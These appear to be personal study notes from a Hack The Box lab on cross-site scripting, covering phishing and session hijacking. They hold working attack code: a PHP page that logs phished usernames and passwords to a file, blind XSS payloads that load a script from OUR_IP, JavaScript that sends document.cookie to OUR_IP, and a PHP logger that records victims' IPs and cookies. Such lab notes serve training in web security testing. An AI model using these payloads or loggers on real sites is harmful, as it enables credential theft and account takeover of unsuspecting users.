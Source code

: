 ```shell
pradyun2005@htb[/htb]$ mkdir /tmp/tmpserver
pradyun2005@htb[/htb]$ cd /tmp/tmpserver
pradyun2005@htb[/htb]$ vi index.php 
pradyun2005@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```


```php
#index.php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://10.129.159.92/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

#### Session Hijacking
-  utilize cookies to maintain a user's session
- gain that cookie using xss => attacker login using cookie

##### Blind Xss Detection
- ![[Pasted image 20240608160419.png]]

- ![[Pasted image 20240608160429.png]]


- we cannot see weather out xss playload trigger of not in admin panel. like alert box


- `how would we be able to detect an XSS vulnerability if we cannot see how the output is handled?`

	1. `How can we know which specific field is vulnerable?` Since any of the fields may execute our code, we can't know which of them did.
	2. `How can we know what XSS payload to use?` Since the page may be vulnerable, but the payload may not work?


**Loading Remote script**

```html
<script src="http://OUR_IP/script.js"></script>
```

- start python server and see wheather GET or not.. If yes XSS vulnerable

**To Get Cookie by loading Remote script**
- we can use these payloads
```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

- we use second one
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
